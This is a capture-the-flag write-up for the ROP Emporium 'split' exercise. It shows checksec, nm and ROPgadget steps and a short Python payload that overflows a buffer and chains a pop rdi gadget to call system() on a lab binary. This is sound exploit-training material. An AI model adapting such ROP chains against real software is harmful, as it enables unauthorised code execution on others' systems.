 # 🔧 split – ROP Emporium Challenge

> Category: Binary Exploitation – ROP Basics  
> Difficulty: Easy  
> Arch: `amd64`  
> Objective: Craft a ROP chain to call `system("/bin/cat flag.txt")` using available gadgets.

---

## 🛠️ 1. Initial Analysis

We begin by checking the binary's security protections:

```bash
checksec split
```

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
Stripped: No
```

### ✅ Observations:
- **NX enabled**: We cannot execute code on the stack.
- **No PIE**: All addresses are fixed.
- **No canary**: Buffer overflow is exploitable.
- **Not stripped**: We can read symbol names using `nm`.

---

## 🔍 2. Exploring Symbols

```bash
nm split
```

Relevant output:

```
0000000000400742 t usefulFunction
0000000000601060 D usefulString
```

- `usefulFunction` at `0x400742` contains a call to `system()`.
- `usefulString` at `0x601060` contains the string `"/bin/cat flag.txt"`.

Our goal: **call `system("/bin/cat flag.txt")`**.

---

## 🧱 3. Finding Gadgets

Using `ROPgadget` to find a gadget that lets us control the first argument (`rdi`) of `system()`:

```bash
ROPgadget --binary split | grep 'pop rdi'
```

Found:

```
0x00000000004007c3 : pop rdi ; ret
```

This gadget allows us to place a value (e.g., a string address) into `rdi`, which is the first argument to functions in the x86_64 calling convention.

---

## 🧪 4. Building the Exploit

We construct a payload to:

1. Overflow the buffer
2. Set `rdi = 0x601060` (address of `"/bin/cat flag.txt"`)
3. Call `system()` (via `usefulFunction`)

### Final Payload:

```python
payload  = b"A" * 40               # Overflow buffer (32 bytes) + saved RBP (8 bytes)
payload += p64(0x4007c3)           # pop rdi ; ret
payload += p64(0x601060)           # address of "/bin/cat flag.txt"
payload += p64(0x40074b)           # address of system() in usefulFunction
```

---

## 🎯 5. Result

Running the exploit successfully prints the flag:

```
ROPE{split_placeholder_32byte_flag!}
```

---

## 🧠 Key Takeaways

- Use `ROPgadget` to find useful gadgets like `pop rdi ; ret`.
- Understand the System V AMD64 calling convention.
- Symbols like `system()` and command strings often exist in challenges — look for them.